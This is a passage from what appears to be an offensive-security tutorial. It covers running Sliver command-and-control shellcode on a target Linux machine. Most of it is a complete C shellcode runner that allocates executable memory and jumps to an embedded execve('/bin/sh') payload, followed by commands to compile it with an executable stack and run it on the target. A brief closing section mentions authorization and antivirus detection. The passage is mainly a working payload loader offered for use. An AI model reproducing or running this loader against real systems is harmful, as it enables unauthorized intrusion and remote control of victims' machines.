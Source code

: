 ```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

unsigned char shellcode[] = 
    "\x48\x31\xc0\x48\x89\xc2\x48\x89"
    "\xc6\x48\x8d\x3d\x04\x00\x00\x00"
    "\x04\x3b\x0f\x05\x2f\x62\x69\x6e"
    "\x2f\x73\x68\x00\x5f\xb0\x3b\x99"
    "\x0f\x05";

void execute_shellcode() {
    void *exec = mmap(0, sizeof(shellcode), PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANON | MAP_PRIVATE, -1, 0);
    if (exec == MAP_FAILED) {
        perror("mmap");
        exit(1);
    }
    memcpy(exec, shellcode, sizeof(shellcode));
    ((void(*)())exec)();
}

int main() {
    execute_shellcode();
    return 0;
}
```

- Replace the `shellcode` array with the raw bytes of the shellcode generated by Sliver.

#### 4. Compile the C Program

Compile the C program using `gcc`:

```sh
gcc -o shellcode_runner shellcode_runner.c -z execstack
```

- `-z execstack`: Allows execution of code on the stack.

#### 5. Run the Shellcode

Run the compiled program on the target Linux system:

```sh
./shellcode_runner
```

### Security Considerations

- **Permissions**: Ensure you have the necessary permissions to run the shellcode on the target system.
- **Detection**: Running shellcode may trigger security mechanisms like antivirus or intrusion detection systems.
- **Legal**: Ensure you have authorization to perform these actions on the target system.
